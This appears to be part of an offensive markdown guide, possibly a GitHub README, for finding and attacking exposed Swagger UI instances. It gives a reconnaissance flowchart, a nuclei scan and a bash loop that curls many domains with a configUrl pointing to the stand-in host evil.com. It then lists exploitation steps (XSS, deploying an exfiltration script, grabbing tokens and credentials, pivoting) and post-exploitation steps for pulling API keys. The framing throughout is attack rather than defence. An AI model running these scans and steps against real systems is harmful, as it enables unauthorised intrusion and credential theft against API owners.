 
## 🎯 TARGETING METHODOLOGY

### 1. Reconnaissance Phase

```
           Target Identification
                   │
                   ▼
           Subdomain Enumeration
                   │
                   ▼
         Scan for Swagger UI Paths
                   │
                   ▼
          Version Fingerprinting
                   │
                   ▼
         Vulnerability Mapping
                   │
                   ▼
        Attack Surface Analysis
```

#### Automated Scanning:
```bash
# Find Swagger UI instances
nuclei -t swagger-detect.yaml -l domains.txt

# Check for configUrl vulnerability
for domain in $(cat swagger-domains.txt); do
  curl -s "$domain/swagger-ui/?configUrl=https://evil.com/ping.json"
done
```

### 2. Exploitation Methodology

```
1. Attempt configUrl parameter injection
2. If successful, try basic XSS payload
3. If basic XSS works, deploy exfiltration script
4. Attempt to access protected API endpoints
5. Look for authentication tokens and credentials
6. Pivot to connected systems if possible
```

### 3. Post-Exploitation

- Extract API keys and tokens
- Enumerate all API endpoints
- Test for broken access controls
- Look for sensitive data exposure
- Document the attack path
